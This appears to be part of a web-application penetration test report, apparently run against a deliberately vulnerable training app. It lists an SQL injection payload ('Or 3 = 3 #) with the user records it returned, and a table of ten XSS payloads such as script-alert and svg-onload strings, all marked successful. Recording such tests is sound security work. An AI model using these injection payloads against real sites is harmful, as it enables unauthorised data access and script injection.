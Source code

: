 *Severity:* `Low`
##### Payload: `addadasddad`
```
User ID:
```

*Severity:* `Critical`
##### Payload: `' Or 3 = 3 #`
```
ID: ' Or 3 = 3 #
First name: admin
Surname: admin

ID: ' Or 3 = 3 #
First name: Gordon
Surname: Brown

ID: ' Or 3 = 3 #
First name: Hack
Surname: Me

ID: ' Or 3 = 3 #
First name: Pablo
Surname: Picasso

ID: ' Or 3 = 3 #
First name: Bob
Surname: Smith
```

---

### XSS Test Cases

| # | Payload | Status | Severity |
|---|---------|--------|----------|
| 1 | <script>alert('XSS')</script> | Success | High |
| 2 | "><img src=x onerror=alert(1)> | Success | High |
| 3 | <svg/onload=alert(1)> | Success | High |
| 4 | <body onload=alert('xss')> | Success | High |
| 5 | "><svg onload=alert('xss')> | Success | High |
| 6 | <script>alert('XSS')</script> | Success | High |
| 7 | "><img src=x onerror=alert(1)> | Success | High |
| 8 | <svg/onload=alert(1)> | Success | High |
| 9 | <body onload=alert('xss')> | Success | High |
| 10 | "><svg onload=alert('xss')> | Success | High |

---